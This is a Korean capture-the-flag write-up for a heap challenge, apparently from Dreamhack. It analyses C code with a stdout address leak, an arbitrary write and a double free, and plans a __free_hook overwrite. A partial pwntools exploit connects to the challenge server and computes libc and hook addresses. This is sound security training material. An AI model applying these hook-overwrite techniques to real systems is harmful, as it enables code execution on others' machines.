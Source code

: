 ```C
    free(ptr);

    system("/bin/sh");
    return 0;
}
```

```C
printf("stdout: %p\n", stdout);

printf("Size: ");
scanf("%ld", &size);

ptr = malloc(size);
```

* 처음에 `stdout`의 메모리 주소를 출력해주는 것으로 보아 해당 값을 통해서 libc_base 주소를 찾으면 될 것으로 예상된다.

* `size`를 입력받아 그 만큼의 크기를 `ptr`에 할당해준다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/201009026-d632c342-9f7b-4161-84de-eec9f6408e2c.jpg" width = 500>
</p>

* `stdout`라는 함수는 `_IO_2_1_stdout_`라는 이름을 가지고 있기에 libc_base를 구할 때 해당 이름으로 구해야 한다.

```C
printf("Data: ");
read(0, ptr, size);

*(long *)*ptr = *(ptr+1);
```

* 할당받은 `ptr`에 입력받은 `size`만큼 read()가 가능하다. 

* **\*\*ptr**에는 **[ptr+1]** 즉, **ptr+0x8**의 값이 들어가있다._(하지만, 어떻게 작용이 되는지 이해를 하지 못했다.)_

```C
free(ptr);
free(ptr);

system("/bin/sh");
return 0;
```

* `free(ptr)`를 두 번하여 **double free detected**로 프로그램이 강제 종료된다.

  * ~~_하지만, 실질적으로는 `*(long *)*ptr = *(ptr+1);`에서 segmetation fault로 프로그램이 종료된다._~~

* 따라서, `system("/bin/sh");`를 실행하지 못한다.

* `free()`함수에는 **__free_hook**이 있기에 Hook overwrite가 가능할 것이다.

## 1st. Exploit

```python
from pwn import *

p = remote('host3.dreamhack.games', 14260)
# p = process('./hook')
e = ELF('./hook')
libc = ELF('./libc.so.6')

p.recvuntil('stdout: ')
stdout = int(p.recv(14), 16)

libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
free_hook = libc_base + libc.symbols['__free_hook']

```